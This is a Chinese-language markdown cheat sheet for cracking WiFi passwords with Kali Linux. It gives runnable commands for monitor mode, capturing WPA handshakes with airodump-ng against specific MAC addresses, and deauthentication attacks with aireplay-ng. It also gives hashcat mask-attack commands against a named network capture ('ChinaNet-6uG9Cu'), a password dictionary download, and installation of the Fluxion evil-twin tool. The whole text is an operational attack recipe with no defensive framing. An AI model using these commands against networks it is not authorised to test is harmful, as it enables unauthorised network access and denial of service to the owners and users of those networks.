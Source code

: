 # Kali WIFI 破解

## 1.监听

```
airmon-ng start wlan0
```

## 2.搜索网络

```
airodump-ng wlan0mon
```

## 3.监听 Wi-Fi 抓包

> -w handshark
>
> 抓包放在 handshark
>
> -c 信道
>
> --bssid 网络 MAC 地址
>
> wlan0mon 监听网络

```
airodump-ng -w handshark -c 4 --bssid 04:20:84:0D:18:29 wlan0mon
```

## 4.ACK 攻击

```
# 攻击客户机
aireplay-ng --deauth 10 -a 74:05:A5:8F:04:B7 -c 74:05:A5:8F:04:B7 wlan0mon --ignore-negative-one

# 攻击网络
aireplay-ng --deauth 0 -a 18:F2:2C:26:30:70 --ignore-negative-one wlan0mon
```

## Hashcat

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
--session 保存进度
--session <session> --restore 恢复进度
```

- 破解 8-11 位数字+小写

```
.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1

.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1 --session 6uG9Cu
```

## 字典

- [Github](https://github.com/conwnet/wpa-dictionary)

```
git clone https://gitclone.com/github.com/conwnet/wpa-dictionary.git
```


## Fluixon

### 1.安装
```
# 国内
git clone https://gitclone.com/github.com/FluxionNetwork/fluxion.git

# 国外
git clone https://www.github.com/FluxionNetwork/fluxion.git

# 进入fluxion目录
cd fluxion

# 安装
sudo chmod +x ./fluxion.sh && ./fluxion.sh -i
```
